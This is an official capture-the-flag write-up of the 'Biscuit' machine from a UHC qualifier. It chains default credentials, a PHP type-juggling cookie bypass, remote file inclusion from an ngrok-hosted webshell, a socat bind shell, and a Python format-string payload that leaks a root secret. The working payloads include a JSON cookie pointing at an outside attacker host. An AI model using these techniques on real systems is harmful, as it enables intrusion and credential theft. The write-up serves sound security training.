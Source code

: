 ```yaml
---
layout: post
title:  "UHCCTF (Classificatória) - Biscuit (Official Write-Up) - eng"
tags: eng ctf write-up
---
```


Hello, I'm Vinicius (big0us), this is a write-up of a machine that was the challenge for one of UHC's qualifiers. (translate to english by [0day](https://twitter.com/0dayctf))
Happy reading :)
g00d_h4ck1ng

# Recon

![/assets/biscuit/Untitled.png](/assets/biscuit/Untitled.png)

The first page you're greeted with a login page, taking a look at the HTML of the page, apparently there's
nothing hidden, I'll fuzz first, then we can test some credentials.

![/assets/biscuit/Untitled%201.png](/assets/biscuit/Untitled%201.png)

Apparently our fuzzing only showed a /class, where there is a directory listing pointing
to a ".php" file.

![/assets/biscuit/Untitled%202.png](/assets/biscuit/Untitled%202.png)

Okay, let's test some default credentials in the login form:

```
admin:admin
guest:guest
administrator:admin
root:root
```

By testing "guest:guest" we were able to enter:

![/assets/biscuit/Untitled%203.png](/assets/biscuit/Untitled%203.png)

Looking around apparently, we only have a welcome page.
Let's check our cookies.

![/assets/biscuit/Untitled%204.png](/assets/biscuit/Untitled%204.png)

![/assets/biscuit/Untitled%205.png](/assets/biscuit/Untitled%205.png)

Using cyberchef to decode the cookie, we can see that it's JSON with three values:
hmac (probably something that validates the values), username, and a time for the
cookie to expire.

I'm going to try to change the username value in the cookie to "admin" with base64 & URL encoding, and
then send back to the application.

![/assets/biscuit/Untitled%206.png](/assets/biscuit/Untitled%206.png)

This page showed an error saying that we're trying to do "cookie tampering", and
returned a flag! The first flag.
After some tests, sending cookies with other random values, I realized that
the application validates the cookie by the value of hmac, and not by the entire content
of json.
A well-known vulnerability about PHP validations is type-juggling, which consists of
bypassing authentications by making any if($ == $) that will always return "true".

[PHP Tricks (SPA)](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp)

[PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)

![/assets/biscuit/Untitled%207.png](/assets/biscuit/Untitled%207.png)

Basically when a programmer uses "==" in a php comparison, first it makes the two values
the same type, ignoring the type (int, str...) of the variables.
And in this situation we can use some techniques for the comparison to return "true".

# Exploitation

After trying for quite a while, I tried changing the value of "hmac" to "true" and luckily it
worked!

![/assets/biscuit/Untitled%208.png](/assets/biscuit/Untitled%208.png)

```json
{"hmac":true,"username":"admin","expiration":1625435484}
```

![/assets/biscuit/Untitled%209.png](/assets/biscuit/Untitled%209.png)

Okay :( I was sad that there are no flags here.
I'll try to change the username again, to understand what's going on.

Changing to "test", php gives us an error, it seems it's running a "require_once" on
the value we put & appending ".php" at the end. require_once is normally used to include
pages and php files in websites, and when the user has control over the value that
require_once uses, the application is vulnerable to LFI or RFI (Local/Remote File
Inclusion).

![/assets/biscuit/Untitled%2010.png](/assets/biscuit/Untitled%2010.png)

As the application already puts the .php at the end, I will do the following.
Upload a file with a webshell on a server using ngrok, then tell the application to include my
file and get an RCE.

![/assets/biscuit/Untitled%2011.png](/assets/biscuit/Untitled%2011.png)

And I will send the payload:

```json
{"hmac":true,"username":"https://3b4f8afabab2.ngrok.io/shell","expiration":1625435484}
```

(The application now puts the .php)

We have RCE!!

![/assets/biscuit/Untitled%2012.png](/assets/biscuit/Untitled%2012.png)

Now I'm going to try to get a reverse shell.
After a few attempts I realized that there is a firewall in the application that blocks any
communication on ports other than 80 or 443, since I don't have a VPS, I'll do it differently, instead of a reverse shell (where the victim connects back to me) I'm going to use a bind shell (opening a port on the machine and connecting to it). For this I will use "socat".

[socat | GTFOBins](https://gtfobins.github.io/gtfobins/socat/#bind-shell)

![/assets/biscuit/Untitled%2013.png](/assets/biscuit/Untitled%2013.png)

First I got the socat binary in their github (socat binary) and passed it to the machine
using the web-server that I created to get RCE, and curling it.
I ran the commands that are in the image and got a bind shell! (I used port 6969)

![/assets/biscuit/Untitled%2014.png](/assets/biscuit/Untitled%2014.png)

In "/" have our next flag:

![/assets/biscuit/Untitled%2015.png](/assets/biscuit/Untitled%2015.png)

# Post Exploitation

Doing the basic privesc checklist, we can see that we are the apache user and we
can run a script as root on the machine:

![/assets/biscuit/Untitled%2016.png](/assets/biscuit/Untitled%2016.png)

Apparently we can't read the script or change it.

![/assets/biscuit/Untitled%2017.png](/assets/biscuit/Untitled%2017.png)

What's left for us to do, is to simply RUN IT!:

![/assets/biscuit/Untitled%2018.png](/assets/biscuit/Untitled%2018.png)

The file prints an IP with option 2 (List Blocked IP's), taking a look at /var/www/html the web application path, we
can see that there is a file with the same IP that was printed, so it's printing the IP that is in the file.

![/assets/biscuit/Untitled%2019.png](/assets/biscuit/Untitled%2019.png)

I opened the file with nano (before running 'export TERM=xterm' !!) and started editing
it, to try and provoke some type of error in python that would show me something from the
program.

![/assets/biscuit/Untitled%2020.png](/assets/biscuit/Untitled%2020.png)

![/assets/biscuit/Untitled%2021.png](/assets/biscuit/Untitled%2021.png)

Interestingly, there is a different (not used often) format string running.
Searching about this type of format string + vulnerabilites, I ended up stumbling on this
article.

[Are there any Security Concerns to using Python F Strings with User Input](https://security.stackexchange.com/questions/238338/are-there-any-security-concerns-to-using-python-f-strings-with-user-input)

Basically it explains everything we need to do, so I won't explain it again, but
the way this format string works, allows us to inject more strings to be formatted, and if
this is printed we can print all the global variables that the file uses, usually giving us
some key or password.

Okay here is my final payload.

```json
{"ips":["{ip.list_blocked.__globals__}"]}
```

![/assets/biscuit/Untitled%2022.png](/assets/biscuit/Untitled%2022.png)

This worked and we got the value of a variable called root_secret, it's probably
the root password.

![/assets/biscuit/Untitled%2023.png](/assets/biscuit/Untitled%2023.png)

Worked!!
Thanks to you who've read this far, I hope you enjoyed this challenge / writeup!